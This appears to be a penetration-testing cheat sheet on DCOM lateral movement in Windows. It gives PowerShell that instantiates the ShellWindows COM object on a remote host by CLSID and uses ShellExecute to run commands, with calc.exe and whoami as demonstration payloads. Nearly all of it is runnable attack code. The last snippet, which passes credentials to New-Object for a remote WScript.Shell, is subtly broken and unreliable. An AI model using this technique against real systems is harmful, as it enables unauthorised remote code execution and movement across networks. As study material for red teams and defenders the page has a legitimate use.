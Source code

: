 # Execute DCOM

__OLEVIEW__
```
AppIds > ShellWindows
CLSID 	9BA05972-F6A8-11CF-A442-00A0C90A8F39
```

Now that we have the CLSID, we can instantiate the object on a remote target:
```
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>") #9BA05972-F6A8-11CF-A442-00A0C90A8F39
$obj = [System.Activator]::CreateInstance($com)
```

## create a remote instance of 'ShellWindows'
```
$com = [Type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39", "127.0.0.1") 
$obj = [System.Activator]::CreateInstance($com)
```

## interact with the object
```
$item = $obj.Item()
$item
```

## create a shellexecute command 
```
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```

## Specify the target computer
```$targetComputer = "COMPUTERNAME"```

## Use the computer account credentials for authentication
```$credential = Get-Credential -UserName "$targetComputer\$($env:COMPUTERNAME)" -Message "Enter computer account credentials"```


## Create a DCOM object
```
$dcom = New-Object -ComObject "WScript.Shell" -Credential $credential
$command = "cmd.exe /c whoami"
$dcom.Run($command, 1, $true)
```
